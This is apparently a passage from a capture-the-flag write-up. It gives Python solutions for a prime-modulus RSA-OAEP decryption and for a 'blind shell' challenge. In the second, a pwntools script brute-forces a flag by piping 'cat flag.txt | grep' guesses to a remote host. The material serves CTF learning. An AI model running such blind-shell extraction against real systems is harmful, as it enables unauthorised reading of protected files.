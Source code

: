 We're given all the parameters (the modulus is prime so no factoring needed), so it's not hard to decrypt. The only tricky thing are:

- The modulus is prime, so several tools (including RsaCtfTool) won't like that
- The encryption is not textbook RSA but OAEP (as hinted by the "optimal" in the title)

```python
from Crypto.Hash import SHA512
from Crypto.Cipher import PKCS1_OAEP

with open("output.txt", "r") as f:
    a, b, c = f.read().splitlines()
    N = int(a.split(" = ")[1])
    e = int(b.split(" = ")[1])
    ct = bytes.fromhex(c.split("'")[1])

class Key:
    def __init__(self, n, e):
        self.n = n
        self.e = e
        self.d = pow(e, -1, N - 1)
    def _decrypt(self, c):
        return pow(c, self.d, self.n)

c = PKCS1_OAEP.new(Key(N, e), SHA512)
print(c.decrypt(ct).decode())
```

## Blind Shell

Pipe command output (e.g. ls) into grep to check for presence/absence of characters. Then bruteforce character by character. 

```python
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:<=>?@[]^'

conn = remote('oreos.ctfchallenge.ga', '12345')
conn.sendline("cat flag.txt | grep ictf{")
conn.recvline()

flag = 'ictf{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        print(chr(r[4]))
        if chr(r[4]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```
